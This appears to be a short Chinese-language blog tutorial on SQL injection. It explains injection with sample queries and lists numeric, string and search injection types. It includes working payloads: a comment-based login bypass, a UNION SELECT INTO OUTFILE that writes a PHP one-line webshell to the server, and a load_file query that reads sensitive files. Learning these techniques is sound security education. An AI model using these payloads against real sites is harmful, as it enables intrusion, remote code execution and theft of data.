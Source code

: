 ```yaml
---
layout:     post
title:      SQL
subtitle:   教程
date:       2024-09-21
author:     白泽
header-img: img/post-bg-trsee.jpg
catalog: true
tags:
    - Mysql
    - 注入
    - 教程
---
```


# SQL注入

<hr>

## SQL原理

`sql注入通过web应用程序传入数据，通过构造得sql语句进行查询数据`

示例` seelct * from users where id='%1%’ and 1=1 +%’`

`select * from users where uname='$user'and pword='$pwd'`

通过注释` #`  `  USER:ADMIN ' and 1=1# ` 

`select * from users where useranme='ADMIN 'and 1=1 #'  and password= '$pwd'`

将` user`后面给注释#

#### webshell：当权限为root且知道绝对路径时，可以直接写入一句话 木马到服务器

`union select 1,"<?php @eval($_POST['cmd']);?>",3 into  outfile "X:\\xx\\xx.php",也可以查询null值`

#### 文件读取：读取敏感文件

`union select 1,2,hex(loadfile(D:\\phpStudy\\PHPTutorial\\WWW\\x.php))--+`

## 注入类型

```
1.数字型
与类似http: xxx.com/news.php?id=1 让数字出错
2.字符型
与类型http: xxx.com/news.php?name=admin 使用引号
3.搜索型
与类似select * from user where content like '%$con%';。使用like、%通配符匹配数据。
与类似?id=a%' and 1=1 #
```
